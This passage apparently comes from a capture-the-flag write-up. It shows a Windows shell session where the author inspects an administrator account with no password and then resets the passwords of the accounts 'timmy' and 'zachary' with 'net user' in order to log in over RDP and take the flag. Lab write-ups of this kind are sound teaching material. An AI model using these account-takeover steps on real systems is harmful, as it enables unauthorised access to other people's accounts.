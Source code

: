 ~~~
C:\users\zachary\desktop>net user zachary
net user zachary
User name                    Zachary
Full Name                    
Comment                      
User's comment               
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/15/2020 9:40:59 PM
Password expires             Never
Password changeable          6/15/2020 9:40:59 PM
Password required            No
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   6/15/2020 9:41:15 PM

Logon hours allowed          All

Local Group Memberships      *Administrators       
Global Group memberships     *None                 
The command completed successfully.
~~~

Timmy has RDP privileges but not Zachary. But Zachary is administrator. Anyway, let's connect as Timmy for now. As we have administrator privileges, we can change Timmy's and Zachary's password. Let's set them both to `pepega`:

~~~
C:\users\zachary\desktop>net user timmy pepega
net user timmy pepega
The command completed successfully.

C:\users\zachary\desktop>net user timmy pepega
net user timmy pepega
The command completed successfully.
~~~

Now, let's connect with Remmnina as Timmy and get the flag:
